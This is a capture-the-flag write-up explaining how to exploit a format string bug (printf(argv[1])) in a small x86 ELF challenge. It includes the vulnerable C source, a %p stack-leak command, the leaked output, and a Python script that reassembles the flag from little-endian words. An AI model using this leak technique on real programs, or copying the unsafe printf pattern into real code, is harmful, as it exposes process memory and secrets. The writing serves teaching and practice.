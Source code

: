 # ELF x86 - Format string bug basic 1

## Summary

A format‑string vulnerability (`printf(argv[1])`) lets us read stack memory. The program reads the flag into a local buffer, so by leaking stack words we can reconstruct the flag (it’s stored as a NUL‑terminated C string). Key pitfalls: little‑endian packing and non‑printable bytes — we fix those by packing the leaked 32‑bit words as little‑endian and stopping at the first NUL.

---

## Vulnerable source (for reference)

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    FILE *secret = fopen("flag.txt", "rt");
    char buffer[32];
    fgets(buffer, sizeof(buffer), secret);
    printf(argv[1]);     // <-- format string vuln
    fclose(secret);
    return 0;
}
```

Key points:

* The program reads the flag into `buffer` using `fgets()` (so the flag is in stack memory).
* `printf(argv[1])` calls `printf()` with a user‑controlled format string — **format string vulnerability**. This allows arbitrary stack reads (and in other contexts arbitrary writes via `%n`, but here we'll use reads).
* The flag is present in process memory (stack). If we can find which stack words contain the flag bytes, we can reconstruct it.




## Leak stack contents with format directives

We want to print many stack words so we can find the flag bytes. A convenient way is to ask the program to print a sequence of `%p` (pointer) or `%x` specifiers.

Command used:

```bash
./chall "$(python -c "print(' '.join(['%p,']*20))")"
```

This prints 20 successive pointer‑sized stack words (comma separated). Example output we observed:

```
0x578561a0, 0x1c, 0x20, (nil), (nil), 0x67616c66, 0x6c6f737b, 0x7d646576, (nil), ...
```

![leaks](./img/leaks.png)

Important observations:

* Some words are `(nil)` — they are NULL pointers (0).
* The words `0x67616c66 0x6c6f737b 0x7d646576` look like hex words related to ASCII; they are the flag bytes but packed into 32‑bit words.
* The endianness of the host is **little‑endian**, so each 32‑bit word contains 4 ASCII bytes in reversed order (when viewed as a human string).

---

## Why the bytes looked scrambled (`galf...`)

When you print 32‑bit words as hex you get the numeric value that results from interpreting the 4 bytes in little‑endian order. For example:

* The ASCII bytes for `flag` are: `0x66 0x6c 0x61 0x67` (`f l a g`) in increasing memory addresses.
* Interpreting these bytes as a little‑endian 32‑bit integer yields `0x67616c66`.
* If you concatenate these integers and read them in integer order and then reinterpret them as bytes without handling little‑endian correctly, the group order or internal byte order looks wrong (e.g. you might read `galf` if you print the integer bytes in the wrong order).

![cyberchef](./img/cyberchef.png)


So to rebuild the string, you must **pack each leaked 32‑bit hex word as little‑endian** and then join the bytes and stop at the first NUL (`\x00`), because the flag is a C string.

---

## Reconstruct the flag from leaked words

we will use this script to reconstruct the flag 

```python
import struct
words = [0x67616c66,0x6c6f737b,0x7d646576,0x415d0000,0xffaa14c0,0xf7f78e14,0x565cbecc,0xf7fdfb60]
s = b''.join(struct.pack('<I', w) for w in words)
flag = s.split(b'\x00',1)[0].decode()   # stop at first NUL
print(flag)   
```

i have just removedn the extra bytes 

now when it encounter an first NUL it will stop and give us the flag


![result](./img/result.png)


we can also see this using any debugger

![flag](./img/flag.png)